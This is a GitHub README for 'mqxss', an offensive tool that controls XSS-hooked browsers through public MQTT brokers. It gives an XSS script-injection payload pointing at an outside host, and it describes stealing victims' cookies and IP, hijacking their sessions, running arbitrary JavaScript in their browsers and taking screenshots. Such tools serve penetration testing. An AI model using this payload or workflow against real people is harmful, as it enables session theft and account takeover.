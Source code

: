 # mqxss


**mqxss acts as a client to communicate with hooked browsers over MQTT**



![Screenshot from 2023-07-03 15-15-35](https://github.com/grampae/mqxss/assets/36344197/d5fae62a-bc5c-4d98-b45e-03cdf541e979)




I created this without a lot of bells and whistles so that the user could send raw JS to the hooked browser.  The benefit to using this over beef or xsshunter is that there is no infra setup, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.

To generate a JS payload to hook browsers with set the -g flag at runtime along with your broker, port and topic variables.  Doing so will create your payload in the /js/ folder.

Then send your XSS payload to the victim while the mqxss client is running, ex: '"><script src=https://example.com/x.js></script> or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

 
**Features:**

- **currently only works with mqtt brokers that use secure websockets however future version will supports mqtts as well.**
- **open hooked browser location with captured cookies**
- **when hooked it grabs cookies, ip, device type, user agent**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **pushover notification**
- **screenshot of hooked browser**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [ ] Set user , password  for brokers that require it at runtime
- [x] Generate js payload at runtime to hook browsers with
- [x] Open browser with hooked browser cookies for convenience
